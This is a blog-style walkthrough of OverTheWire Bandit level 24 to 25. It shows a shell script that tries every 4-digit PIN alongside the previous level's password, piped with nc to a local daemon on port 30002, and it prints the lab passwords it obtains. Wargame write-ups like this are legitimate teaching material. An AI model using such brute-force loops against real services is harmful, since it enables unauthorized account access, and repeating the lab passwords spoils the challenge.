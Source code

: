 +++
draft = false
date = 2020-05-06T17:26:01+02:00
title = "Level 24 -> Level 25"
description = ""
slug = ""
tags = []
categories = []
externalLink = ""
series = []
weight = 31
+++

**Level Goal**

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

## Solution ##

For this level we will have to write our own script. But before that, what is brute forcing?

**Short Lesson**

> In cryptography, a **brute-force attack** consists of an attacker submitting many passwords or passphrases with the hope of eventually guessing correctly. The attacker systematically checks all possible passwords and passphrases until the correct one is found.

We have to create a script that tries all the possible combinations of:

`UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ` + `4digit-pincode`

The script output will be something like:

{{< highlight bash >}}
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0000
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0001
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0002
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0003
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0004
......
......
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9999
{{< /highlight>}}

The script we will be using will be stored under `/tmp/scripting_level24` and will be like the following:

{{< highlight html >}}
#!/bin/sh

password=UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

for i in $(seq -f "%04g" 0 9999)
do
    c="${password} ${i}"
    echo ${c}

done
{{< /highlight>}}

Where the `seq` command will print out all the different combinations between `0000` and `9999`. The `-f` switch indicates the format to use.

Now let's give the script executable permissions and launch it against the port `30002` on `localhost`:

{{< highlight html >}}
chmod 777 script.sh
{{< /highlight>}}

{{< highlight html >}}
bandit24@bandit:/tmp/script_level24$ ./script.sh | nc localhost 30002
......
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

Exiting.
{{< /highlight>}}


&nbsp;

We successfully found the password for **Level 25** !
